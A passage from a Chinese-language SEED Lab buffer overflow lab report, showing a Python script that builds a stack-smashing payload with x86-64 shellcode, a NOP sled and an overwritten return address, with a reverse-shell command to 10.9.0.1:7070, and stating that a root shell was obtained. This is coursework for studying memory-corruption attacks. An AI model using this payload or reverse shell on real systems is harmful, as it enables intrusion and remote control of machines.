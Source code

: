 构造python脚本如下，已知rbp和buffer地址，将shellcode放在前面即可，此处直接设置start为0：

```python
#!/usr/bin/python3
import sys

shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/7070 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x7fffffffe650    # Change this number 
offset = 0x7fffffffe720 - 0x7fffffffe650 + 8              # Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

获取到root权限的shell：

![echo-hello-server3](/img/posts/2023-10-25-【SEED_Lab】缓冲区溢出实验报告/images_server/echo-hello-server3.png)
